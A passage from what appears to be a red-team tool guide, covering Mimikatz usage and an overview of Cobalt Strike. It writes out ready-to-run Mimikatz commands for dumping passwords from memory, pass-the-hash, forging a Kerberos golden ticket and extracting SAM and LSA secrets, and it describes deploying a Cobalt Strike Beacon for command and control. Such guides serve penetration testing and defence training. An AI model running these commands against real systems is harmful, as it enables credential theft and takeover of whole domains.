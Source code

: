 **Getting Started with Mimikatz**:

1. **Dumping Passwords from Memory**:

   ```bash
   mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords" "exit"
   ```

   - This command dumps all available passwords from memory.

2. **Pass-the-Hash Attack**:

   ```bash
   mimikatz.exe "privilege::debug" "sekurlsa::pth /user:admin /ntlm:<hash> /domain:domain /run:cmd.exe" "exit"
   ```

   - Use an NTLM hash to authenticate as the user without knowing their plaintext password.

3. **Golden Ticket Attack**:

   ```bash
   mimikatz.exe "privilege::debug" "kerberos::golden /user:Administrator /domain:domain.com /sid:S-1-5-21-... /krbtgt:<NTLM hash> /id:500" "exit"
   ```

   - Create a golden ticket to impersonate any user in the domain, including domain admins.

4. **Dumping SAM and LSA Secrets**:

   ```bash
   mimikatz.exe "privilege::debug" "lsadump::sam" "lsadump::secrets" "exit"
   ```

   - Extract SAM and LSA secrets from the target system, revealing additional credentials.

### 5. **Cobalt Strike**

**Overview**:
Cobalt Strike is a commercial adversary simulation tool that’s popular for advanced post-exploitation. It provides a comprehensive suite of tools for managing compromised systems, performing lateral movement, escalating privileges, and evading detection.

**Key Features**:
- **Beacon Payload**: A highly configurable payload that supports command execution, file transfer, privilege escalation, and more.
- **Team Collaboration**: Supports collaboration among multiple operators in red team engagements.
- **Lateral Movement**: Automates lateral movement techniques like pass-the-hash and remote service creation.
- **Evasion Techniques**: Built-in obfuscation and anti-detection features to bypass security controls.

**Getting Started with Cobalt Strike**:

1. **Launching Cobalt Strike**:
   - Launch the Cobalt Strike client and connect to the Cobalt Strike team server.

2. **Deploying a Beacon**:
   - Generate a Beacon payload and deploy it on the target system. The Beacon allows for persistent command and control.

